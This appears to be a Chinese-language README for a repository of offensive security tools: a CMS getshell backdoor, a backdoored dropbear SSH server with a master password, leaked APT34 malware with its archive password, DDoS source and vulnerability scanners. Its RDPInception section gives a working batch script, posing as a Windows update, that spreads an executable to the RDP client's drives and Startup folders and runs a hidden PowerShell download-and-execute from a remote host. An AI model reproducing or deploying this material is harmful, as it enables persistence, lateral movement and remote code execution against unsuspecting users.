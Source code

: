 # 
## siteserver cms 5.X vuln demo
SiteServer CMS remote download getshell `demo.zip`下载的后门文件
## 修改OpenSSH源代码记录用户详细操作日志
openssh*.tar.gz 修改后的文件编译安装即可，*.docx为修改说明。
+ https://www.zhoufengjie.cn/?p=385
+ https://www.zhoufengjie.cn/?p=174

## run.js
Browser-based subdomain bruteforcing using DNS over HTTP(s) (DoH)
## dropbear
+ FAKE_ROOT: #define 强制伪"root"uid解析，即使目标系统无法解析用户名。
+ ALT_SHELL: #define 假冒root用户使用备用shell而不是/bin/sh登陆。
+ Server Master Password: 在dropbear命令行上指定-Y以指定要进行身份验证的“主”密码，当没有root用户时，对FAKE_ROOT很有用，因此没有root密码。
+ Forced Home Directory: 在dropbear命令行上指定-H，以使用户使用指定的主目录登录。当没有root用户时，对FAKE_ROOT很有用，因此没有root主目录。
```
wget https://matt.ucc.asn.au/dropbear/releases/dropbear-2018.76.tar.bz2
tar xjf dropbear-2018.76.tar.bz2
cd dropbear-2018.76
./configure --disable-zlib
make
make install
mkdir /etc/dropbear
/usr/local/bin/dropbearkey -t dss -f /etc/dropbear/dropbear_dss_host_key
/usr/local/bin/dropbearkey -t rsa -s 4096 -f /etc/dropbear/dropbear_rsa_host_key
/usr/local/sbin/dropbear -p 6666
```

## APT34-Leak

Pass: `vJrqJeJo2n005FF*`

+ Glimpse（Palo Alto Networks命名为BondUpdater的基于PowerShell的木马的新版本）
+ PoisonFrog（旧版BondUpdater）
+ HyperShell（Palo Alto Networks称之为TwoFace的网络外壳）
+ HighShell（另一个Web shell）
+ Fox Panel（网络钓鱼套件）
+ Webmask（DNS隧道，DNSpionage背后的主要工具）

## RDPInception
Bat To Exe转换器添加如下代码保存`windows.bat`
```
@echo off

echo Updating Windows ...

@echo off
timeout 1 >nul 2>&1

mkdir \\tsclient\c\temp >nul 2>&1
mkdir C:\temp >nul 2>&1

copy windows.exe C:\temp >nul 2>&1
copy windows.exe \\tsclient\c\temp >nul 2>&1

del /q %TEMP%\temp_00.txt >nul 2>&1

set dirs=dir /a:d /b /s C:\users\*Startup*
set dirs2=dir /a:d /b /s \\tsclient\c\users\*startup*

echo|%dirs%|findstr /i "Microsoft\Windows\Start Menu\Programs\Startup">>"%TEMP%\temp_00.txt"
echo|%dirs2%|findstr /i "Microsoft\Windows\Start Menu\Programs\Startup">>"%TEMP%\temp_00.txt"

for /F "tokens=*" %%a in (%TEMP%\temp_00.txt) DO (
	copy windows.exe "%%a" >nul 2>&1
	copy C:\temp\windows.exe "%%a" >nul 2>&1
	copy \\tsclient\c\temp\windows.exe "%%a" >nul 2>&1
)

del /q %TEMP%\temp_00.txt >nul 2>&1

powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://x.x.x.x'))"
```
选项：

+ 工作目录：当前
+ EXE格式：32位windows隐藏
+ 嵌入式提取到：临时目录

转换bat保存为`windows.exe`,编辑`windows.bat`嵌入添加`windows.exe`重新转换为最终成品windows.exe

## kali_beef_start
Kali Beef Framework Start Script

## SambaCry漏洞扫描程序
存档的密码:`sambacry` <br>
参考:https://bi.zone/news/vulnerability-scanner-sambacry/

## WannaCry漏洞扫描程序MS17-010
存档的密码:`wannacry` <br>
参考:https://bi.zone/news/vulnerability-scanner-ms17-010/

## kali开启SSH服务，允许root登陆
```
systemctl enable ssh.service	//开启SSH服务开机启动
```
`nano /etc/ssh/sshd_config`允许root登陆
```
#PermitRootLogin prohibit-password
PermitRootLogin yes
#PasswordAuthentication yes
PasswordAuthentication yes
```
## kali设置固定ip
1.首先把kali虚拟机的**网络适配器**更改为**桥接模式**直连物理网络。<br>
2.查看自己主机的（是自己真实电脑的不是虚拟机）ip地址，网关，网段。<br>
3.修改`nano /etc/network/interfaces`文件，添加如下内容
```
auto eth0	//自动启动eth0网卡
iface eth0 inet static	//静态获取IP
address x.x.x.x	//固定ip地址，根据实际情况填写
netmask x.x.x.x	//子网掩码，根据实际情况填写
gateway x.x.x.x	//网关，根据实际情况填写
```
4.修改`nano /etc/resolv.conf`文件添加dns
```
nameserver 114.114.114.114
nameserver 8.8.8.8
```
5.重启系统或`/etc/init.d/networking restart`重启网络服务

## Puzlbox PHP模糊测试工具。
它通过执行动态程序分析来扫描几个不同的漏洞.目前正在进行以下测试：

+ 任意命令执行
+ 任意文件读/写/更改/重命名/删除
+ 本地文件包含（LFI）
+ 任意PHP执行
+ SQL注入
+ 反射的跨站点脚本（XSS）

对于每个测试，将特定有效负载（伪造请求）发送到Web应用程序，并分析来自服务器的响应。根据结果​​（HTTP响应代码，错误，......），测试将被解释为正面（发现潜在的漏洞）或负面。所有肯定测试都出现在生成的报告中，并带有已发送的有效负载

puzlbox [-s Server（默认本地主机）] [-m扫描模式（默认CFLPSX）] [绝对Web根目录] [-n No Unhook] [应用程序路径（以逗号分隔）]

## linux ddos集群源码

存档的密码:`123` <br>linux集群源码_2.7z 

## XSSHunter-Setup安装教程
`XSSHunter-Setup`安装教程文章
